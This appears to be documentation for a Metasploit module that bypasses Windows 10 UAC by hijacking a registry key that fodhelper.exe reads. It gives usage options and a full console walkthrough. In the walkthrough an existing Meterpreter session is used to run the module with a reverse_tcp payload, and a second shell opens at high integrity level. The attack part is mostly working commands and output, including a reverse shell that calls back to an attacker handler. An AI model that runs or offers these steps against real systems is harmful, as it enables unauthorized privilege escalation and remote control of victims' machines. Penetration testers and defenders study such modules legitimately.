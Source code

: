 ## Introduction

  This module will bypass Windows 10 UAC by hijacking a special key in the Registry under
  the current user hive, and inserting a custom command that will get invoked when
  the Windows fodhelper.exe application is launched. It will spawn a second shell that has the UAC
  flag turned off.

  This module modifies a registry key, but cleans up the key once the payload has
  been invoked.

  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting your
  payload in a separate process.

## Usage

  You'll first need to obtain a session on the target system.  
  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.
  The module use an hardcoded timeout of 5 seconds during which it expects fodhelper.exe to be launched on the target system.
  On slower system this may be too short, resulting in no session being created. In this case disable the automatic payload handler (`set DISABLEPAYLOADHANDLER true`)
  and manually create a job handler corresponding to the payload.
  

## Scenario

```
msf > 
[*] Sending stage (1189423 bytes) to 192.168.50.4
[*] Meterpreter session 11 opened (192.168.50.1:4444 -> 192.168.50.4:1654) at 2017-05-22 19:10:43 +0100

msf > sessions -i 11
[*] Starting interaction with 11...

meterpreter > shell
Process 9496 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\sasha\Desktop>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                                                     

C:\Users\sasha\Desktop>exit
exit
meterpreter > 
Background session 11? [y/N]  
msf > use exploit/windows/local/bypassuac_fodhelper 
msf exploit(bypassuac_fodhelper) > set SESSION 11
SESSION => 11
msf exploit(bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(bypassuac_fodhelper) > set target 0
target => 0
msf exploit(bypassuac_fodhelper) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 192.168.50.1:4445 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\WINDOWS\system32\cmd.exe /c C:\WINDOWS\System32\fodhelper.exe
[*] Sending stage (957487 bytes) to 192.168.50.4
[*] Meterpreter session 12 opened (192.168.50.1:4445 -> 192.168.50.4:1655) at 2017-05-22 19:12:03 +0100
[*] Cleaining up registry keys ...

meterpreter > shell
Process 4076 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
ERROR: Unable to get user claims information.
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                                                                 

C:\WINDOWS\system32>

```
